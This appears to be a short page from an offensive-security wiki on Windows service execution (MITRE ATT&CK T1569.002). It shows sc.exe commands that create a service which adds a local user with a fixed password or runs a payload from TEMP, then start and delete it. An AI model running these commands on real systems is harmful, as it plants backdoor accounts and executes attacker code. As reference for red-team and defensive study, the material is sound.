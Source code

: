 ```yaml
---
description: MITRE ATT&CK™   System Services - Service Execution  - Technique T1569.002
---
```


# Services

## Theory

Windows services can also be leveraged to run arbitrary commands since they execute a command when started.

## Practice

{% tabs %}
{% tab title="sc.exe" %}
On windows, we can use the built in sc.exe binary to remotely interact with services

```bash
#Create a service
sc.exe create MyService binPath= "net user munra Pass123 /add" start= auto
sc.exe create MyService binPath= "C:\Windows\TEMP\payload.exe" start= auto

#Start a service
sc.exe start MyService

#Stop and delete a remote service
sc.exe stop MyService
sc.exe delete MyService
```
{% endtab %}
{% endtabs %}

You may want to check this page for remote services execution :&#x20;

{% content-ref url="../../pivoting/services-svcctl.md" %}
[services-svcctl.md](../../pivoting/services-svcctl.md)
{% endcontent-ref %}
